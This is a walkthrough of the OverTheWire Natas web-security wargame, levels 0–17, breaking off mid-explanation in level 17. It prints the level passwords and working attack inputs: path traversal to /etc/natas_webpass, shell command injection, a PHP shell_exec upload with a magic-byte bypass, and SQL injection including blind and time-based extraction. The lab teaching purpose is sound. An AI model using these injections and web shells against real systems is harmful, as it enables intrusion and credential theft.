


**Natas Level 0**  
http://natas0.natas.labs.overthewire.org/  
username: `natas0`  
password: `natas0`  

Our first task is very simple. After login we can see a fairly simple site, with a block in the middle, which contains the following text:
```text
You can find the password for the next level on this page.
```  

  

To get the password, we need to press F12 or right-click. For now, press right-click anywhere on the page, and select inspect element.  

After that, we can see the current page's source code. We need to look out for a single line of comment, which says contains the password:  

  

The password for level 1 is:  
`g9D9cREhslqBKtcA2uocGHPfMZVzeFK6`  

**Natas Level 1**  
http://natas1.natas.labs.overthewire.org/  
username: `natas1`  
password: `g9D9cREhslqBKtcA2uocGHPfMZVzeFK6`  

The concept is similar to the previous one, with one big difference. The right click function is disabled! Go ahead, and press F12, and you will be on the same source code inspector page as before. Find the key just as you did before, and go for the next level!  

  

The password for level 2 is:  
`h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7`  

**Natas Level 2**  
http://natas2.natas.labs.overthewire.org/  
username: `natas2`  
password: `h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7`  

After logging in, we can see a text that says:`There is nothing on this page`. Well, we shall see...we need to press F12.  

  

There is a very little, almost hidden `` tag on the source code, which display a 1px wide image. What is important for is however, is the image path: `files/pixel.png`. In the path, we can see the `files` part. Maybe we can type it into the browser, such as...  

  

[http://natas2.natas.labs.overthewire.org/files/](http://natas2.natas.labs.overthewire.org/files/)  
Here, we can see the `pixel.png` file, just as we expected. What is also there however, is a `files.txt` file. We can open it, of course...

```text
# username:password  
alice:BYNdCesZqW  
bob:jw2ueICLvT  
charlie:G5vCxkVV3m  
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q  
eve:zo4mJWyNj2  
mallory:9urtcpzBmH  
```


We do not need to care about all this information, the only line that that matters to us is:  
```text
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

The password for level 3 is:  
`G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q`

**Natas Level 3**  
http://natas3.natas.labs.overthewire.org/  
username: `natas3`  
password: `G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q`  

After login, a similar page welcomes us as it did before. The possible best approach is to inspect the source code, just as we did before.  
We can find the following comment, if we look closely:  

  
```html
<!-- No more information leaks!! Not even Google will find it this time... -->  
```
This sentence refers to a `robots.txt` file, which is common among web developers.  
We can visit [http://natas3.natas.labs.overthewire.org/robots.txt](http://natas3.natas.labs.overthewire.org/robots.txt) to see content of this file.  

  

```text
User-agent: *  
Disallow: /s3cr3t/  
```
It basically says, that the file disallows access to a directory, named `s3cr3t`. However, we can access it, by typing [http://natas3.natas.labs.overthewire.org/s3cr3t/](http://natas3.natas.labs.overthewire.org/s3cr3t/) to the browser.  
We can see, that there is a users.txt file in the directory. Let's open it.  

```text
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

Yes! It contains the password for the next level.  
The password for level 4 is:  
`tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm`  

**Natas level 4** 
http://natas4.natas.labs.overthewire.org/  
username: `natas4`  
password: `tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm`  

After logging in, we can see the following messsage:  

  

So, we in the request, we need to set the `referer`. The referer is [an optional HTTP header field that identifies the address of the web page (i.e., the URI or IRI), from which the resource has been requested.](https://en.wikipedia.org/wiki/HTTP_referer) as stated in the Wikipedia page. So, by setting the referer header, we send information about our last page we've visited. Now, as we can see in the screenshot, we can visit the site only from http://natas5.natas.labs.overthewire.org/. That can be achieved by setting a referer header, as the following:  
```bash
curl http://natas4.natas.labs.overthewire.org/ -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm  --referer http://natas5.natas.labs.overthewire.org/`
```
Let's review the response, to get the password for the next level!  
```html
 <html>  
     <head>  
         <!-- This stuff in the header has nothing to do with the level -->  
         <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">  
         <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />  
         <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />  
         <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>  
         <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>  
         <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.verthewire.org/js/wechall.js"></script>  
         <script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script>  
     </head>  
 <body>  
     <h1>natas4</h1>  
     <div id="content">  
         Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD  
     <br/>  
     <div id="viewsource"><a href="index.php">Refresh page</a></div></div>  
     </body>  
 </html>  
```

The password for level 5 is:  
`Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD`  

**Natas Level 5**  
http://natas5.natas.labs.overthewire.org/  
username: `natas5`  
password: `Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD`  

  

At first, we are greeted with a message 
```text
Access disallowed. You are not logged in.`
```
So, we need to find another way around.  
Most of the sites are managing logged-in/logged-out states with some kind of cookies. Let's follow this way, and look at the site's cookies  

  

Yes! There is a cookie, called 'loggedIn', with a value of '0'. Guess what happens, when we overwrite to something else...like `1`. Click to the `0`, and rewrite it to `1`, so it will look something like this.


Now, after that, we need to reload the page...


There it is! The message has changed, it says: 

```text
Access granted. the password for natas6 is: fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

The password for level 6 is:  
`fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR`

**Natas Level 6**  
http://natas6.natas.labs.overthewire.org/  
username: `natas6`  
password: `fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR`  

After we log in, we see an input field, which asks us to fill in an `Input secret`. We need to find out, what is that input secret. Let's click at the `View sourcecode` button.  


This buttons shows us the [http://natas6.natas.labs.overthewire.org/index-source.html](http://natas6.natas.labs.overthewire.org/index-source.html) page.  
The most important part for us is the following:  

```php
<?  
include "includes/secret.inc";  
if(array_key_exists("submit", $_POST)) {  
    if($secret == $_POST['secret']) {  
        print "Access granted. The password for natas7 is <censored>";  
    } else {  
        print "Wrong secret";  
    }  
}  
?>  
```
This section is a server-side code, which basically tells us that it includes a /secret.inc file, from the includes directory.  
After that, is compares the `$secret` variable with the input field's value.  
Let's look at it step by step:  
1. We can visit [http://natas6.natas.labs.overthewire.org/includes/secret.inc](http://natas6.natas.labs.overthewire.org/includes/secret.inc)

```php
<?  
    $secret = "FOEIUWGHFEEUHOFUOIU";  
?>  
```


We have found the secret previously mentioned!  
Now, we can fill in this value to the input field we've previously seen:

```text
Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```


The password for level 7 is:  
`jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr`

# Natas Level 7  
http://natas7.natas.labs.overthewire.org/  
username: `natas7`  
password: `jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr`  


Let's see, what's happening here. If we click on Home or About, we can see, that the url changes as well.  
```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```
The most important part for us is `page=home`  
Let's see what's happening, when we delete the `home` part, basically leave the parameter empty.


Got it! The page crashes, informing us about an important message: the server basically tries to load whatever it is given to the `page` parameter. Maybe, we could find out the password this way....let's look at the source code, again  


The comment gives us an important hint: We should look for the password at the following path: 
```bash
/etc/natas_webpass/natas8
```
Let's change the url to:

```text
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
  
Bingo! We've got the password for the next level.  

The password for level 8 is:  
`a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB`  

**Natas Level 8**  
http://natas8.natas.labs.overthewire.org/  
username: `natas8`  
password: `a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB`  

We need to start with the `View sourcecode` button, because they provided this to us. :)  
The most important part here is this:  

```php
function encodeSecret($secret) {  
    return bin2hex(strrev(base64_encode($secret)));  
}  
```
To ensure that we can bypass this check, we need to do the reverse of it. So...  
- base64 decode the string
- re-reverse to string
- convert this hex string to bin format  

You can find some online tools for that, or you can write your own little script in any language you'd like.  
Basically, the steps you need to reproduce:  

```php
<?php
$str = "3d3d516343746d4d6d6c315669563362";
echo "default value:";
echo "\n";
echo $str;
echo "\n";
$str = hex2bin($str);
echo "str after hex2bin";
echo "\n";
echo $str;
echo "\n";
$str = strrev($str);
echo "str after strrev";
echo "\n";
echo $str;
echo "\n";
$str = base64_decode($str);
echo "str after base64decode";
echo "\n";
echo $str;
echo "\n";
?>
```
After running this simple PHP script, we get an output like this:  
```console
default value:  
3d3d516343746d4d6d6c315669563362  
str after hex2bin  
==QcCtmMml1ViV3b  
str after strrev  
b3ViV1lmMmtCcQ==  
str after base64decode  
oubWYf2kBq  
```
So, we need to fill in `oubWYf2kBq` to the input field in the page, and...  
  
We've got the password.  
The password for level 9 is:  
`Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`

**Natas Level 9**  
http://natas9.natas.labs.overthewire.org/  
username: `natas9`  
password: `Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`  

In this task, we've got an unfiltered input, which passes anything we write in to the following command:  
```bash
grep -i $key dictionary.txt
```
Where `$key` is the text we wrote in the input field.  
The basic task of this command would be to filter the dictionary.txt file to words that contains the text we wrote in the input field, and then outputting the result to the page. So for example, if i write 'dog' in the input field:  

```text
bulldog  
bulldog's  
bulldogged  
bulldogging  
bulldogs  
dog  
dog's  
dogged  
doggedly  
doggerel  
doggerel's  
dogging  
doghouse  
doghouse's  
doghouses  
dogma  
dogma's  
dogmas  
dogmata  
dogmatic  
dogmatics  
dogs  
dogwood  
dogwood's  
dogwoods  
underdog  
underdog's  
underdogs  
watchdog  
watchdog's  
watchdogs  
```
I got back the words which contains the substring `dog`.
However...  
```bash
| ls /etc/natas_webpass
```

We can write in commands like these.  
And the output will be (shortened):

```text
/etc/natas_webpass:  
natas0  
natas1  
natas10  
natas11  
natas12  
natas13  
natas14  
...  
```
So, we can simply grab that password we need, by typing:

```bash
| cat /etc/natas_webpass/natas10
```
And the password is ours!  
The password for level 10 is:

`D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`

**Natas Level 10**  
http://natas10.natas.labs.overthewire.org/  
username: `natas10`  
password: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`  

Our task is basically the same, however with some modifications:  
The script now filters certain keys, like:  

- ; 
- |
- &

So, if we try to write in the previous answer:  
  
We get an error message, that we used some kind of illegal characters. So we need to find another way.  
We could try to urlencode some strings....  
[https://en.wikipedia.org/wiki/URL_encoding](https://en.wikipedia.org/wiki/URL_encoding)  
We need to do something with the `|` and the `/` characters  
Look for the 'Common characters after percent-encoding (ASCII or UTF-8 based)' section in the page, and find the character '|' and '/' characters:  

```text
%7C cat %2Fetc%2Fnatas_webpass%2Fnatas10
```
It does not work however...  
We have other methods, though.  
With grep, we can search in multiple files, not just one. This means, that is somehow we can send the path of the password file(which is in this case `/etc/natas_webpass/natas11`)  
The grep command works like this  
```bash
grep {string_to_search} {filename_1} {filename_2} {filename_3}
```
So, we need pick one 'random' letter (because grep is going to search for this letter in the natas11, and dictionary.txt file)  
So, for example we can write the following to the input field:  

```text
a /etc/natas_webpass/natas11
```

The output should be something like this:  
```text
Output:  
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg  
dictionary.txt:African  
dictionary.txt:Africans  
dictionary.txt:Allah  
dictionary.txt:Allah's  
dictionary.txt:American  
dictionary.txt:Americanism  
dictionary.txt:Americanism's  
dictionary.txt:Americanisms  
dictionary.txt:Americans  
dictionary.txt:April  
dictionary.txt:April's  
dictionary.txt:Aprils  
```
We've got the password. Bingo!  
The password for level 11 is:  
`1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`  

**Natas Level 11**  
http://natas11.natas.labs.overthewire.org/  
username: `natas11`  
password: `1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`  

The page starts with a simple input, which we can use to set the background color of the page.

  

Let's test it to see if it works:


  
Beautiful. Now, let's see how we can get the password for the next level. For that, use our handy `View sourcecode` button.  

The first thing that happens in the code, is the following line:

```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
```
These are the basic values - for exmaple, if we visit the page for the first time - to be loaded into the cookie. Our main goal is to earn that we have `showpassword` with the value of `yes`. Let's go forward in the code:  

```php
$data = loadData($defaultdata);
```

Let's inspect that `loadData` function:  

```php
function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}
```

The `loadData` function first checks, if we have a cookie named "data". If not, it simply returns the `$defaultData` variable. Otherwise, the following happens:

```php
$tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
```

We need to inspect that `xor_encrypt` function:  

```php
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
```
With the key unknown, we can only see the logic behind the encryption. We need to find out the value of the key, to go forward.The good thing is, we can replicate this function in our own php environment. In `task11.php`, the first two line is the following:  
```php
$encodedData = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
$cookieString = base64_decode(urldecode("MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D"));
```

Inthe first line, We `json_encode` the default data, so we can use it in the rest of the code.

What is more important however, that we need to grab the current state of the cookie from the page. To do that, press F12, select the Application tab. In the left menu bar, select the Cookies option. Under the 'http://natas11.natas.labs.overthewire.org/' option, we can see that we have one cookie, named data. Let's grab its value, and paste it to the second line of `task11.php`.


After that, we need to `base64_decode` the `urldecode`-ed string. Basically, we revert the functions the server did to this value. The main reason we need to do is, is we can use this value to get back the original content of the `$key` variable. Because xor is reversible, we will get a string, which is a repeated representation of the key. Let's go forward. In our `task11.php`, we create our `xor_encrypt` function, with a little modification:  

```php
/// task11.php
function xor_encrypt($in,$sentKey) {
    $key = $sentKey;
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
```
The only modification we did, is that we can send the key to the function. Let's use this function, like this:  

```php
$result = xor_encrypt($cookieString,$encodedData);
```

The first parameter looks like this:  

`{"showpassword":"no","bgcolor":"#ffffff"}`  

The second parameter looks like this:  

`0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n6`  

Using the `xor_encrypt` function, we can get the key value, in a repeating pattern, because the xor-d string is longer than the key itself.The output should be something like this:  

`KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLK`  

From this string, we can be sure that the key is `KNHL`  

Now that we know the key, we need to create a cookie with the following contents:  

``{"showpassword":"**yes**","bgcolor":"#ffffff"}`  

As you can see, our main objective is to turn the value of `showpassword` from `no` to `yes`, in a form that the website can understand it. To do that, we need to use the `xor_encrypt` function in the following way:  

```php
$result2 = xor_encrypt($cookieString,"KNHL");
```

With this, we can be sure that the xor encryption is working. The output should be something like this:  

```{"showpassword":"no","bgcolor":"#ffffff"}```  


The final step, is when we `xor_encrypt` something which is useful for our task:  

```php
$correctObjectToDecode = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));
$result3 = urlencode(base64_encode(xor_encrypt($correctObjectToDecode,"KNHL")));
```

The value of `correctObjectToDecode` contains the most important modification, which is the following:  `"showpassword"=>"yes"`. Using the `KNHL` key, we get a working cookie value, that we can paste into the Developer Tools page. Let's open the Cookie page, and replace the value of the cookie named `data` with the value of `result3`.The value should look something like this:  

`MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz`  

After replacing the value, let's reload the page. We should see an output like this:  
  
The password for level 12 is:  
`YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

**Natas Level 12**  
http://natas12.natas.labs.overthewire.org/  
username: `natas12`  
password: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`  

This exercise asks us to upload a JPEG file, which is no more than 1KB in size.  
But before we do that, we can see that they offer us a handy `View sourcecode` button again. Let's check it!  
The code shows us a function, named `genRandomString` and `makeRandomPath`. As their name emplies, they create a random path in the server's directory, to temporary hold the uploaded file.  
If the upload is successful, they even tell us the path of the uploaded image.  
There is a serious issue in this upload mechanism however. We can simply upload a PHP file to the server. Let's check if very quickly

Write a simple test.php file, like:  
```php
<?php
echo "Hello level 12";
?>
```

You can use this sample to upload. You need to change one thing however. We need to modify a little bit in the HTML code, so our upload will land as a PHP file.  
If you press F12, and look after the site's source code, you can see the following form:  


The most important part for us, is the following:  
```html
<input type="hidden" name="filename" value="ebyoyosjrz.jpg">
```
The `ebyoyosjrz` part might be different for you, since it's totally random.  
Here, we need to change the `jpg` part to `php`. You can just double click the text, and modify it, right there.  
If you choose to upload this file, you will get a link, where you cant view the contents of this file. You can double click on it, and voila! Your php script runs!  
Now, the only thing we need to do, is to write a script, that outputs the password for the next level.  
For example:  
```bash
echo shell_exec("cat /etc/natas_webpass/natas13")
```
After changing the jpg part to php again, and after uploading the php file, clicking on the link reveals the password for us:  

The password for level 13 is:  
`lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`  

**Natas Level 13**  
http://natas13.natas.labs.overthewire.org/  
username: `natas13`  
password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`  

This level is similar to the previous one, but there is one big difference. The creators have added an another line of defense. You can take a look at the code by click the `View sourcecode` button:  
The big difference is the following line:  

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
}  
```

So, there is a kind-of filetype checking - the server makes sure that we only upload *valid* image files. But what does `exif_imagetype` really checks?  

[https://www.php.net/manual/en/function.exif-imagetype.php](https://www.php.net/manual/en/function.exif-imagetype.php)  

> exif_imagetype() reads the first bytes of an image and checks its signature.  

The first few bytes of a jpeg file is the following:  

`\xFF\xD8\xFF\xE0`  

So, all we need to do is to create another php file, and by using some hex editor, we need to append these 4 bytes to the beginning of the php file  
After that, we need to modify the file extension in the html of form, just as we did in the previous task. After that, we need to upload our modified php file. If everything is OK, we get a path, just as we did before. The text file possibly contains some question marks at the beginning, but dont worry about that. They're just the extra bytes we added to our file.  

The password for level 14 is:  
`qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

**Natas Level 14**  
http://natas14.natas.labs.overthewire.org/  
username: `natas14`  
password: `qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP` 

Level 14 includes a form, with a username and a password input, which instantly triggers something inside us: [SQL Injection](https://en.wikipedia.org/wiki/SQL_injection)  
  

There is also a `View sourcecode` button too, so click on that:

The php section of the code basically tells us the following: The server creates a connection to the mysql server, and selects the natas14 database.

The most important part is the following:  
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";  
```


What this does, is basically inserts the contents of the username, and the password input fields to the mentioned query.

We can help ourselves a little bit, to visualize the query. By looking at the code, there is the following section:

```php
if(array_key_exists("debug", $_GET)) {  
    echo "Executing query: $query<br>";  
}  
```


It basically means that if there is a key named `debug` in the $_GET array (which is the url parameters)  
To achieve that, we need to modify the html code, before pressing the `Login` button.  
After pressing `F12`, look for the form element inside the line of code that looks like the following:  
```html
<form action="index.php" method="POST">
```

Change it to the following:  
```html
<form action="index.php?debug=true" method="POST">
```
This creates the necessary query parameter when submitting the form, and the query gets printed. You can try it without adding the 'debug=true' and you can see the difference yourself.  
Now, type something to the 'Username' field and to the 'Password' field.  
For most of the time, you will get an 'Access denied!' message.  
So, we need to somehow 'break' the query, to act differently:  

We have control over the `$_REQUEST["username"]` and the `$_REQUEST["password"]`

One possible answer would be:

username: `natas15" #`  
password:  

the `#` sign in the username basically ends the current query, and the `"` after natas15 closes the quotation marks. So in this case our query should be:

```sql
SELECT * from users where username=\"natas15" #\" and password=\"\""
```

Thanks to the `#` sign, the query ends right after `natas15`

The following also works:

username: `" or 1 = 1 #`
password: ``

After successfully breaking the possibilities of the input fields:  
The password for level 15 is:  
`TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`  

**Natas Level 15**  
http://natas15.natas.labs.overthewire.org/  
username: `natas15`  
password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB` 

This level is a bit tricky.  
At first, we think it gives us back only one information, and for that, we need to look at the source code, too:  


```php
if(mysqli_num_rows($res) > 0) {  
    echo "This user exists.<br>";  
} else {  
    echo "This user doesn't exist.<br>";  
}  
```
What this if-else tells us, that if the current query result has more row than zero, the database contains a record to the constructed query.  
How does that query looks like?  
```php
"SELECT * from users where username=\"".$_REQUEST["username"]."\""
```

We have control over only one place of the query, however, it's at the end of the query. So, with clever usage, maybe we can use this to our advantage....  
Our main goal is to get the password from the table.   
The source code contains the basic structure of the table that we are querying. It looks something like this:

```sql
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
```
We have two columns: a username, and a password, both with a length of 64.  
If we have the control over the textfield, and the end of the query, somehow we can construct a query, that could predict/tell us the password for the next level.  
The basic idea, is to create a query that also asks for a password - or just for a part of it - to get a match alongside the username.  
But first, let's check if natas16 even exists!  
  
By typing natas16 to the input field, we get back the response 'This user exists.'.  
That's a very important information, because we use this to our advantage.  
Let's start by appending more query parameters to the query that the server runs.  
We would like to achieve something like this:  
```sql
SELECT * from users where username="natas16" AND password = "password"
```
Currently, we can create only this:  
```sql
SELECT * from users where username="natas16"
```
So, in order to expand this query, we need to create a little sql injection, but before we do that, let's think about it how we are going to find the FULL password.  
There are certain operators in mysql, one of them is named LIKE. LIKE is used in a WHERE clause to search for a given pattern in a column, like, in a password.  
For example:  
```sql
WHERE "password" LIKE "a%"
```
finds all rows, where the passwords STARTS with an 'a'(the % character is special, because it means that there could be anything in place of the % character)  
So, by knowing that, we could try out all the possible characters from A to Z, a to z and 0 to 9.  
After that, we'd have the first character of the password. But before that, let's go back to the query creation.  
We need to make sure, that the query for the password actually appends to the command that the server is going to run.  
For that, we can type in the following to the input field:  
```sql
natas16" AND password LIKE BINARY "A%
```
We could try it over for every possible letters of the alphabet(also numbers from 0 to 9), but that would take simply too much time. To avoid that, i wrote a simple PHP script, which is not very organized, but it does the job. You can find the script in the `task15.php` file.  
What it does, is basically loops through all possible characters (A-Za-z0-9), and looks for the website's response. If the website contains 'This user exists' then we save the current character to a string, and start the process over.  
For example, if the password would be 73ik3mr, then the first round would end with the query:  
```sql
natas16" AND password LIKE BINARY "7%
```

the secound round would end with:  
```sql
natas16" AND password LIKE BINARY "73%
```
the third round would end with:  
```sql
natas16" AND password LIKE BINARY "73i%
```
and so on...  
By the way, BINARY is needed, because without it, 'r' would be equal to 'R', 'A' would be equal to 'a', and we need to differentiate them.  
Following the method, we can get the password to the next level.  
The password for level 16 is:  
`TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`  

**Natas Level 16**  
http://natas16.natas.labs.overthewire.org/  
username: `natas16`  
password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`  

This level is basically the same as level 10 was, but with a few key differences. The filtered characters are the following:  
- [
- ;
- |
- &
- `
- \
- '
- "

Aside from that, everyting is the same. We need to somehow get the contents of `/etc/natas_webpass/natas17`  
We cannot use pipe, or cannot concat more than one commands, because of the filter.  
What is not filtered however, are the following characters: `$` `(` `)`  
the `$()` syntax stands for the command substitution in Linux. As you'd think, we can pass a working command, and we'd expect it to run for us. But how we could use this to our advantage?
Let's re-examine, how to `grep` command works.  
```bash
grep -i {string_to_find} {filename} 
```

So, if the grep commands finds the string in the given filename, it returns it, otherwise, it returns nothing.  
We can use this yes/no effect to our advantage.  
The main idea to overcome this task, is to 'guess' every letter(similarly as we did in the previous task) in the text file. But how we can do that?  
1. Let's pick a random file that exists in the dictionary.txt file. Let's say, `windowpanes`.
2. Type this word into the textfield, so we can be sure that the command works.  
  
3. It works! The command which ran in the background was: 
```bash
grep -i windowpanes dictionary.txt
```
4. The real trick comes here. We write a subcommand between the `$(` `)` characters.

The command is going to look like this:  
```bash
$(grep -E ^{character}.* /etc/natas_webpass/natas17)windowpanes
```

Let's break it down, one after another:
- The word `windowpanes` is always at the end
- In the placeholder `{character}` we are always going to change the characters in a loop, we are going with A-Z, a-z, 0-9. So, we will start with `a`, for example.
- In the case, the command we are injecting is going to be: 
```bash
$(grep -E ^a.* /etc/natas_webpass/natas17)windowpanes
```
- If the /etc/natas_webpass/natas17 starts with `a`, it is going to return it. We do not know the full content of the file, but we know that it starts with the letter `a`. In that case, the full command is going to look like the following: 
```bash
grep -i \awindowpanes\ dictionary.txt
```
- You could probably guess now, why is that good for us. There is no word `awindowpanes` in dictionary.txt, BUT the password of natas17 starts with a letter `a`. Let's say, we go to the next word. The command looks like the following: 
```bash
$(grep -E ^a{character}.* /etc/natas_webpass/natas17)windowpanes
```
- If the next letter of the password, let's say, `x`, the command looks like the following: 
```bash
$(grep -E ^ax.* /etc/natas_webpass/natas17)windowpanes
```
- For the entire password, there is a script called task16.php, which is very similar to task15.php

The password for level 17 is:  
`XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

**Natas Level 17**  
http://natas17.natas.labs.overthewire.org/  
username: `natas17`  
password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd` 

This level is exactly the same as Level 15, with one difference: There will be no output whether if we've found a user, or not. So, we need to figure out something, to determine our progress, or the password.  
We can still use our handy `debug` parameter, however.  
But, we still need to find a difference between a query that gives is results, or the one that does not.  
Here comes our handy [Sleep](https://mariadb.com/kb/en/sleep/) function.  
When we execute the sleep function in a query, it waits x seconds before proceeding with the execution, where X is the value given to the function. For example,`SLEEP(5)` waits 5 seconds before continuing with the query.  
We still control one place in the query, so we need to do a little bit of trick there: 
```sql
SELECT * from users where username=\"{input_goes_here}\";  
``` 

So, we need to create something like we did in level 15. The main idea is to loop through all the possible characters(just as we did in several previous task) and if the password contains the current character, we will wait - for example - 5 seconds. This will give us enough time to know, that the server is not slow, and our `SLEEP(5)` function is executing.  
We dont want to wait 5 seconds all the time, we need this feature only, when the current part of the password we guessed is correct. So, we need an [IF](https://dev.mysql.com/doc/refman/8.0/en/if.html) function too.  
the If function takes three arguments:
1. The first one is an expression, which returns True of False.
2. The value to return, if the first expression is True.
3. The value to return, if the first exrepssion is False.  

For example:  
```sql
IF(1<2,'yes','no');
```
This expression returns 'yes', since 1 is smaller than 2. However:  
```sql
